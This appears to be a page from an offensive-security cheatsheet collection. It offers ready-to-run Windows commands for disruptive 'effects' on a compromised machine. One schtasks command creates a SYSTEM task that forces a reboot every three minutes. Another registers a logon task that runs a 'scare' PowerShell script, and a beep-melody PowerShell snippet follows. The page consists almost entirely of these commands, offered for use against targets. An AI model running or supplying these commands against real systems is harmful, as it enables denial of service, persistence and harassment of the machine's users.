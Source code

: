 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/effect.md#rolling-reboot">Bottom of Page</a>
</p>

# Cheatsheets - Effect
## Table of Contents
* [Scheduled Tasks](#scheduled-tasks)
  * [Rolling Reboot](#rolling-reboot) 

## Scheduled Tasks
### Rolling Reboot
```bash
schtasks.exe /create /ru "SYSTEM" /sc minute /mo 3 /tn "Rolling Reboot" /tr "shutdown /r /t 000" 
schtasks.exe /create /sc onlogon /tn "Scare" /tr "powershell -c 'C:\scare.ps1'"
```
```pwsh
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
```
